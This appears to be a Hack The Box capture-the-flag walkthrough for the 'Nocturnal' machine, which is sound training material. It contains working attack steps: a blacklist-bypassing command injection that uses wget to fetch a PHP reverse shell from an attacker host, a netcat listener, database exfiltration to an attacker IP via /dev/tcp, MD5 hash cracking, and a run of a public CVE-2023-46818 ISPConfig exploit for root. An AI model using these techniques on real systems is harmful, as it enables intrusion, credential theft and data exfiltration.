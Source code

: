 # Nocturnal – HTB Walkthrough

## 🌎 Enumeration

Initial port scan:

```bash
nmap -sS -sV -sC nocturnal.htb
```

Output:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

We add the domain to `/etc/hosts`:

```bash
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

## 🔍 Web Enumeration

Visiting `http://nocturnal.htb` reveals login and registration forms. We register as `prova:prova`.

Inside the authenticated dashboard, we can upload files (`pdf`, `doc`, `odt`, etc.). Accessing them uses this URL format:

```
http://nocturnal.htb/view.php?username=prova&file=prova.pdf
```

Trying invalid filenames reveals all uploaded files for that user. By brute-forcing usernames (e.g. with `wfuzz`) we find:

```
amanda
```

Her file `privacy.odt` contains:

```
Temporary password: arHkG7HAI68X8s1J
```

Logging in as `amanda` grants **Admin Panel** access.

## 🤔 Source Code Review

Admin page `admin.php` allows backups via:

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

The password field is weakly sanitized by a blacklist:

```php
$blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
```

We bypass it using encoded characters:

* `%0A` = newline
* `%09` = tab (interpreted as space)

## 🚀 Code Execution

Upload a PHP reverse shell to your machine and host it:

```bash
python3 -m http.server 1337
```

Exploit via POST to `/admin.php`:

```bash
password=%0A/usr/bin/wget%0910.10.15.3:1337/shell.php%0A&backup=
```

Trigger the shell:

```bash
curl http://nocturnal.htb/shell.php
```

Get a reverse shell:

```bash
nc -nvlp 4444
```

## 🔍 Looting the Box

Search for databases:

```bash
find / -regex ".*\.db" 2>/dev/null
```

Found:

```
/var/www/nocturnal_database/nocturnal_database.db
```

Dump it via:

```bash
cat /var/www/nocturnal_database/nocturnal_database.db > /dev/tcp/10.10.15.3/1339
```

Then crack the MD5 hash:

```bash
echo "55c82b1ccd55ab219b3b109b07d5061d" > hash.txt
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
```

Result:

```
tobias:slowmotionapocalypse
```

## 💼 SSH Access

```bash
ssh tobias@nocturnal.htb
```

Check internal services:

```bash
ss -lnt
```

Port `8080` is open on localhost. Set up forwarding:

```bash
ssh -L 9090:localhost:8080 tobias@nocturnal.htb
```

Visit `http://localhost:9090`: ISPConfig panel.

## 🚫 CVE-2023-46818 - RCE via ISPConfig

Use the [PoC exploit](https://karmainsecurity.com/pocs/CVE-2023-46818.php). Example:

```bash
php exploit.php http://localhost:8080/ admin slowmotionapocalypse
```

Interactive shell prompt appears:

```
ispconfig-shell# id
uid=0(root) gid=0(root) groups=0(root)
```

## 🏁 Root Flag

```bash
cat /root/root.txt
```

→ ✅ **Rooted!**

## 🎉 Summary

| Step         | Description                                      |
| ------------ | ------------------------------------------------ |
| nmap         | Enumerated open ports (22, 80)                   |
| Upload       | Found file upload + filename enumeration         |
| File Leak    | Discovered `amanda` user + credentials from .odt |
| Admin Panel  | Identified ZIP command injection                 |
| Command Exec | Uploaded PHP shell via encoded injection         |
| DB Dump      | Dumped SQLite DB, cracked MD5 password           |
| SSH Access   | Logged in as `tobias`                            |
| Port Fwd     | Accessed ISPConfig on port 8080                  |
| CVE Exploit  | Used CVE-2023-46818 for RCE as root              |
| Root         | Captured `/root/root.txt`                        |